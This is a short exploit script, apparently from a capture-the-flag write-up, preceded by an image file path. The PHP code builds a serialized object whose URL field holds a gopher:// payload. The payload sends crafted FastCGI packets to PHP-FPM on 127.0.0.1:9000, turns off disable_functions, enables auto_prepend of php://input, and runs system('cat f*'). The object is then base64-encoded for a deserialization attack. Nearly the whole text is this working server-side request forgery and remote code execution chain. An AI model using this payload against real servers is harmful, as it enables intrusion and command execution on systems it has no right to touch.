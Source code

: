 exp:

```php
<?php
class config{
	public $update_url = 'gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27cat%20f%2A%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00';
}
class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}

}
$a=new dao();
echo base64_encode(serialize($a));
?>

```

